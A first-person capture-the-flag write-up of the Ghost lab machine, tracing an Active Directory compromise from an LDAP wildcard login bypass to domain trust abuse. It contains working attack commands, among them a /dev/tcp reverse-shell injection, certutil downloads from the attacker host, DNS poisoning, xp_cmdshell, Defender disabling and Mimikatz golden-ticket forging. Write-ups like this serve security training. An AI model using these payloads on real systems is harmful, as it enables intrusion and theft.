



Ghost
Ghost was a beast of an insane machine that tested multiple advanced Active Directory attack techniques across interconnected Windows domains. The challenge began with discovering an LDAP authentication vulnerability in an intranet portal, where using wildcards (*) in password fields allowed for successful authentication bypass. This revealed numerous potential user accounts that could be targeted.
The journey continued with finding a Gitea repository containing sensitive information about a Ghost CMS blog implementation. Analysis of the code revealed a critical path traversal vulnerability that allowed reading environment variables, exposing a development API key. This key granted access to a poorly secured API endpoint with a command injection vulnerability in a URL scanning feature, leading to the first reverse shell on a Docker container.
Further reconnaissance revealed a Kerberos ticket for florence.ramirez, providing an opportunity to pivot and perform DNS poisoning. By manipulating DNS records, I intercepted a connection from justin.bradley and captured his NTLMv2 hash, which was successfully cracked. This access allowed for capturing the user flag and discovering that Justin had permissions to read GMSA passwords.
The privilege escalation path involved extracting the ADFS$ service account password, permitting a sophisticated golden SAML attack against the federation service. After generating a forged SAML response, I gained authenticated access to a federated application with SQL debugging capabilities. By exploiting linked SQL servers, command execution on the primary database server was achieved as the mssql-service account.
Final escalation to System involved leveraging SeImpersonatePrivilege with EfsPotato to gain SYSTEM-level access. The ultimate compromise was achieved by exploiting the bidirectional trust relationship between domains, creating a golden ticket with Mimikatz and using Rubeus to access the Domain Controller and capture the root flag.
The machine brilliantly showcased a variety of modern Active Directory attack techniques, from initial LDAP authentication bypass through complex trust relationship exploitation, making it an exceptional challenge for advanced penetration testers.
User flag
The initial nmap scan reveals many ports.
┌──(kali㉿kali)-[~/Ghost]
└─$ nmap -sV -sC -Pn -oA Ghost 10.10.11.24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-25 22:19 GMT
Nmap scan report for ghost.htb (10.10.11.24)
Host is up (0.10s latency).
Not shown: 981 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-25 22:19:47Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
443/tcp open https?
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
1433/tcp open ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
2179/tcp open vmrdp?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
3389/tcp open ms-wbt-server Microsoft Terminal Services
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8008/tcp open http nginx 1.18.0 (Ubuntu)
8443/tcp open ssl/http nginx 1.18.0 (Ubuntu)
I can see ldap, as well as some kerberos-related ports. Adding in the revealed domain name, I can conclude that this is most definitely an Active Directory scenario! There are two websites that I can explore. core.ghost.htb on port 8443 and another one on port 8008. I'll check out the one at 8443 first.
Active Directory Federation Services... There's not much I can do here without credentials. I can see a SAML request in the URL bar, but for now, I'll leave this untouched.
On the port 8008, I can see a seemingly regular ghost website... I'll fuzz for subdomains, since I cant really do anything here.
Fuzzing yields me intranet and gitea subdomains. I'll check gitea first. (A note from the future: The fuzzing wordlist chosen by me does NOT contain gitea by default. I have added some words that were not there previously after fuzzing in the past)
While exploring, I found two users. However, I cannot see any repos without logging in. I'll turn my focus towards the intranet subdomain now.
Authentication Bypass
Weird... Instead of a password, I need to provide a secret. This is unusual for me, so I'll take a look at the process through burpsuite.
POST /login HTTP/1.1
Host: intranet.ghost.htb:8008
Content-Length: 832
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Next-Action: c471eb076ccac91d6f828b671795550fd5925940
Accept-Language: en-US,en;q=0.9
Accept: text/x-component
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Origin: http://intranet.ghost.htb:8008
Referer: http://intranet.ghost.htb:8008/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_$ACTION_REF_1"
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_$ACTION_1:0"
{"id":"c471eb076ccac91d6f828b671795550fd5925940","bound":"$@1"}
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_$ACTION_1:1"
[{}]
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_$ACTION_KEY"
k2982904007
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_ldap-username"
test
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="1_ldap-secret"
test
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue
Content-Disposition: form-data; name="0"
[{},"$K1"]
------WebKitFormBoundaryPW0d5Cji9pMOg5Ue--
It authenticates via LDAP! I'll try logging into one of the accounts discovered from Gitea. Even though I don’t know any passwords, the process itself may reveal something useful.
I'll start with cassandra.shelton.
Surprisingly, the login succeeded with * as the secret. This suggests an LDAP authentication misconfiguration, where wildcard values are accepted instead of requiring a valid secret.
This means I can log in as any user without knowing their credentials!
Before that, however, I'll see what information there is to find within intranet.

In the users tab, I discovered many potential users! I'll save those to a list so that I can test for their validity once possible.
In the forums tab, I found a potential attack surface that could allow me to gain a hash.
Justin Bradley is using a script that repeatedly connects to gitea and bitbucket. Since Kathryn says that the DNS record is not set yet, I may be able to insert a malicious bitbucket DNS record pointing back to my machine. That way, I would be able to use responder and snatch Justin's NTLMv2 hash. That'll come later though, as for now, I dont have any viable users.
Finding a way to bruteforce secrets
Since I know that wildcards work on the login form, I'll try to see if there is a way to bruteforce the passwords.
Identifying a Difference in Responses
Using Burp Suite, I tested different login attempts and noticed a key difference in the server’s responses:
- Incorrect guesses always returned a 200 status code.
- Correct guesses resulted in a 303 redirect.
This means I can bruteforce the password character-by-character by appending a * wildcard and monitoring the response!
Bruteforcing the secrets
To automate the process, I wrote a Python script that:
- Iterates through possible characters (a-z, 0-9).
- Attempts a login with the so-far pieced together password.
- Checks the response status code:
- If 200, move to the next character.
- If 303, save the character and continue.
- Stops when a full password is found (confirmed by receiving a 303 status code without appending a * at the end).
Gitea temp account password discovered! With that, I'll try logging into gitea. In the background, I'll run the script against cassandra.shelton and see if I can get her secret.
Gitea exploration
I logged in as gitea_temp_principal! The script did uncover Cassandra's secret as well, but it did not work as her password for gitea.
I can immediately see two commits for one repo. I'll check the upper commit first.
# Ghost Blog
Our blog uses the Ghost CMS in a Docker container.
We are planning on adding additional features to the blog. One of them is a new connection to the intranet. For example, some posts will be featured on our intranet, or URLs from posts will be scanned by the intranet.
However, this is still in development, so some features are behind an API key, shared between the intranet and the blog. It is named `DEV_INTRANET_KEY` and it is stored as an environment variable.
We modified a bit of the Ghost CMS source code to accomodate such new features. One example is the `posts-public.js` file, which allows us to extract additional information about the posts.
In the future we should move the information to the database so that we don't accidentally lose data on container recreation. Make sure to replace the file when running, or just use the provided Dockerfile.
Also, the public API in Ghost needs an API key. We can write it here since it only allows access to public data: `a5af628828958c976a3b6cc81a`
This README file immediately caught my attention. It reveals that there is an environment variable DEV_INTRANET_KEY. If I can exploit a Local File Inclusion (LFI) vulnerability, I may be able to retrieve it.
It also reveals a public API key... if there is a public key, then there may be a private one somewhere too!
Keeping that in mind, I continued exploring the commit and found an interesting .js file at the bottom.
### Code snippet
const posts = await postsService.browsePosts(options);
const extra = frame.original.query?.extra;
if (extra) {
const fs = require("fs");
if (fs.existsSync(extra)) {
const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
posts.meta.extra = { [extra]: fileContent };
fs is a Node.js module that interacts with the filesystem. The extra parameter is user-controlled and directly used in file operations without proper sanitization. This could allow me to include arbitrary files in the response.
If I can escape the extra directory via path traversal, I may be able to read /proc/self/environ, which could expose sensitive environment variables like DEV_INTRANET_KEY.
Confirmed! With this, I can get the environmental variables and the intranet key.
And there it is—the DEV_INTRANET_KEY I was looking for!
DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe
I also found a database file, but after inspecting its contents there wasn’t anything useful inside.
Reverse shell in the docker container
In the main page of the intranet repository, I found an interesting note:
Intranet
We are adding new features to integrate the blog and the intranet. See the blog repo for more details.
Until development is done, we will expose the dev API at http://intranet.ghost.htb/api-dev.
Since I've obtained the DEV_INTRANET_KEY, I suspect it will grant me access to the /api-dev endpoint. If so, this could allow interaction with internal scripts or restricted functionality.
After digging deeper into the intranet repository, I found an interesting Rust script named scan.rs, located inside backend/src/api/dev/.
### Code snippet
// Scans a URL inside a blog post
// This will be called by the blog to ensure all URLs in posts are safe
#[post("/scan", format = "json", data = "<data>")]
pub fn scan(_guard: DevGuard, data: Json<ScanRequest>) -> Json<ScanResponse> {
// currently intranet_url_check is not implemented,
// but the route exists for future compatibility with the blog
let result = Command::new("bash")
.arg("-c")
.arg(format!("intranet_url_check {}", data.url))
.output();
The script constructs a Bash command using data.url, a user-controlled parameter. Since the input is passed directly into a shell command without sanitization, I may be able to inject a reverse shell one-liner as data.url, gaining remote access to the system.
curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url": "0<&196;exec 196<>/dev/tcp/10.10.16.92/9001; /bin/bash <&196 >&196 2>&196"}'
Reverse shell worked! I am... Root? This is most likely a docker container then.
In the initial folder, there in an sqlite database and an ELF binary. I'll get them onto my machine for further analysis.
The database does not contain any interesting data. I'll analyze the ELF bin with radare2.
While waiting for radare2 to analyze the file, I went forward and explored the container a bit more.
Getting access to the dev workstation
In the root directory, I found a docker-entrypoint.sh file:
#!/bin/bash
mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n ControlMaster auto\n ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n ControlPersist yes' > /root/.ssh/config
exec /app/ghost_intranet
And here are the contents of the controlmaster file:
florence.ramirez@ghost.htb@dev-workstation:22
I'll try to SSH onto the dev workstation as Florence.
Getting a kerberos ticket as florence.ramirez

There is nothing on this workstation... But Im Florence. Perhaps there is something that could allow me to authenticate as them?
There is a valid kerberos ticket! I'll copy it over to my box so that I can move forward as florence.ramirez.
I base64 encoded the ticket in order to copy it to my machine easily. On my machine, I decoded it and saved it to a file.
The ticket is valid. I can now authenticate as florence.ramirez!
In bloodhound, I see two interesting things:
There are actually two domains. Ghost and corp.ghost are trusted by eachother. If I compromise one domain, I might be able to get ahold of the other by abusing their trust.
Justin Bradley can read the GMSA password of the ADFS$ account. If I can get Justin's credentials, a new attack path will open for me.
DNS Poisoning as florence.ramirez
With Florence Ramirez, I might be able to realize my earlier plan to poison the DNS records and get Justin's hash. I'll try that right now using a tool called "dnstool".
python krbrelayx/dnstool.py -u 'ghost.htb\florence.ramirez' -k --record 'bitbucket.ghost.htb' -dns-ip 10.10.11.24 --data 10.10.16.92 --action add DC01.ghost.htb
Now I'll start responder as root, listening on the proper interface.
sudo responder -I tun0
After a few seconds, I already have the NTLMv2 hash.
I'll crack it with hashcat.
It cracked! Since Justin Bradley can remote into the machine(seen via bloodhound), I'll do just that before proceeding with my further plans. I'll see if the user flag is acquirable at this point.
User flag captured!
Root Flag
Using netexec, I can acquire the hash of ADFS_GMSA$.
This account can be used to perform a golden SAML attack, which will allow me to break through the login page at federation.ghost.htb.
Golden SAML attack
I built ADFSDump on a Windows 10 VM and sent it back to my kali box to use it in the attack and extract the ADFS secrets.
I got the necessary keys, now I need to convert them into the right formats.

I'll use ADFSpoof to forge a golden SAML response.
After a long fight with python, dependencies and the cryptography package, I finally managed to make ADFSpoof work.
With the SAML response in hand, I should be able to enter the federated website as administrator. I will first login as Justin Bradley, then I'll manipulate the request in burpsuite and swap the original SAML Response with my forged one.
Shell as MSSQL-Service
On the website, there is an SQL debug panel.
There's not much I can do, as my user is a low privileged one.
However, I've stumbled upon an interesting thing during my search.
#SQL query: SELECT srvname, isremote from syservers
{
"recordsets": [
[
{
"srvname": "DC01",
"isremote": true
},
{
"srvname": "PRIMARY",
"isremote": false
}
]
],
There is a primary server as well. I'll try to find a way to exploit this.
#SQL query: EXECUTE('EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options''') AT [PRIMARY]
{
"recordsets": [
[
{
"name": "show advanced options",
"minimum": 0,
"maximum": 1,
"config_value": 1,
"run_value": 1
}
]
],
I can execute commands on the primary server! I'll refine the command to achieve just that.
But before that, I'll do some preparation. For my reverse shell, I'll be using PowerJoker. A python script with great obfuscation and multiple sessions management.
https://github.com/Adkali/PowerJoker
I'll put the generated payload as the command to execute with my xp_cmdshell query.
SQL query: EXECUTE('EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''powershell -e "encoded command''') AT [PRIMARY]
MSSQL-Service to system
I've landed in the corp.ghost.htb domain.
I'll check the privileges of the mssql-service user.
'SeImpersonatePrivilege' is enabled here. I can use one of the potato exploits to elevate privileges!
Some of the potatos did not work, but I've found one that worked for me. I'll download EfsPotato onto my box, then I'll use certutil to download it onto the target.
https://github.com/zcgonvh/EfsPotato
I started a python server on my machine and downloaded EfsPotato onto the target machine.
certutil -urlcache -split -f http://10.10.16.93/EfsPotato.cs
Before building the .exe, I'll check the .net framework version thats present on the box, so that I can provide the correct one.
I'll build EfsPotato.exe using the latest available version.
C:\Windows\Microsoft.Net\Framework\V4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
And I'll run it with the same powershell command.
.\EfsPotato.exe 'Powershell command'
With PowerJoker I am able to receive the 2nd connection without changing commands and switch between them easily.
With system-level permissions, I can disable the annoying defender for good. This'll also allow me to get easy shells from the MSSQL panel without obfuscation.
Set-MpPreference -DisableRealtimeMonitoring $True
Bidirectional Trust Relationship Abuse
Thanks to the trust between the domains, I'll be able to create a golden ticket with mimikatz, then I'll use rubeus to get access to the DC's filesystem, where the root flag should be.
.\mimikatz.exe 'lsadump::trust /patch' exit - Extracts trust keys that are used to authenticate between domains in the trust relationship, then exits(otherwise it would just hang for me)
Now I'll create the golden ticket, using all the information I've gathered before.
.\mimikatz.exe 'kerberos::golden /domain:corp.ghost.htb /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /AES256:e3df710b4a178f726b0f74f2bfef5fbc356bb5cce7ddd50630a1589dee72426d /user:Administrator /service:krbtgt /target:ghost.htb /ticket:trusted.kirbi'
Generates a ticket, which will grant Enterprise Administrator privileges on the target domain.
With this ticket in hand, I can use rubeus to gain access to the DC!
.\Rubeus.exe asktgs /dc:dc01.ghost.htb /service:cifs/dc01.ghost.htb /ticket:trusted.kirbi /nowrap /ptt - Grants access to the DC filesystem, injecting the ticket into memory.

At this point I can easily access the root flag located on the DC.
Rooted!